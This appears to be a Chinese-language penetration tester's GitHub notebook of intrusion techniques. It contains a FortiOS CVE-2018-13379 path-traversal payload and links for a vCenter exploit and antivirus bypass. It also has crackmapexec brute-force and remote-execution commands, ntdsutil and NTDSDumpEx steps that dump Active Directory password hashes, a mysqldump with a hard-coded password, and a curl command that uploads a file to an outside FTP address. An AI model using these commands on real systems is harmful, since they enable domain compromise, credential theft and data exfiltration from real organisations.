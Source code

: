 # -Infiltration-summary
*平时工作总结*

navicat连接本地mysql数据库
ALTER USER 'root'@'localhost' IDENTIFIED BY 'password' PASSWORD EXPIRE NEVER;
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';

远控学习：https://github.com/TideSec/BypassAntiVirus 轻型目录访问协议（英文：Lightweight Directory Access Protocol，缩写：LDAP)是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。

CVE-2021-21972 https://mp.weixin.qq.com/s/0VZzc0gYBrGIeuu1-QCFag

https://www.freebuf.com/articles/web/264345.html fofa搜索title="+ ID_VC_Welcome +"

https://blog.csdn.net/cxrpty/article/details/104807306 mysql UDF提权

https://scarletf.github.io/2019/09/03/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%AF%BC%E5%87%BA%E5%9F%9F%E7%94%A8%E6%88%B7Hash%E6%96%B9%E6%B3%95/

MantisBT是一个开源问题跟踪器，可在简单性和功能之间实现微妙的平衡。

sudo apt-get install openjdk-8-jdk 升级jdk

Fortinet FortiOS路径遍历漏洞 CVE-2018-13379 /remote/fgt_lang?lang=/../../../../../../..///////////dev/cmdb/sslvpn_websession https://github.com/cckuailong/PocCollect/commit/f22ca95309392e2c12cf6b501aa31b5f6e57339c

https://www.advanced-port-scanner.com/ 端口扫描

net use \10.10.10.201\ipc$ P@ssw0rd /user:localhost\administrator

Symantec 赛门铁克是一家总部设于美国加利福尼亚州山景城的互联网安全技术厂商

crackmapexec 10.10.10.201 -u Administrator -p P@ssw0rd -x "ipconfig /all" crackmapexec.exe ip.txt -u user.txt -p pass.txt -t 3 -x "ipconfig /all" >>a.txt 爆破命令

域控制器抓取域成员hash（2008,2012，2016） ntdsutil snapshot "list all" quit quit //查看全部快照 ntdsutil snapshot "activate instance ntds" create quit quit //创建快照 ntdsutil snapshot "list all" quit quit //查看全部快照 ntdsutil snapshot "mount {d39bd9ed-5474-4929-8273-e8c82cc662af}" quit quit //挂载快照为文件夹 copy C:$SNAP_201706301256_VOLUMEC$\windows\ntds\ntds.dit //拷贝快照文件夹中hash存储文件 ntdsutil snapshot "unmount {150a1e86-84f0-41c4-816c-13d03356de0d}" quit quit //卸载快照 ntdsutil snapshot "delete {98eee20e-86ba-4ac2-acc4-f835d80d1d63}" quit quit //删除快照 "C:\Program Files\7-Zip\7z.exe" a ntds.7z C:\windows\system32\ntds.dit //压缩hash存储文件+

如何从 ntds.dit 提取 Hash NTDSDumpEx

离线模式：先导出注册表
reg save hklm\system system.hiv NTDSDumpEx.exe -d ntds.dit -s system.hiv -o hash.txt

在线模式：无需导出注册表
NTDSDumpEx.exe -d ntds.dit -r -o hash.txt

curl -T app.jar ftp://185.243.41.216/

mysqldump -uroot -pfda4da7295f11da1 --databases guess >/tmp/guess.sql mv /tmp/guess.sql 下载回来文件 curl -o guess.sql https://www/妈的目录/guess.sql
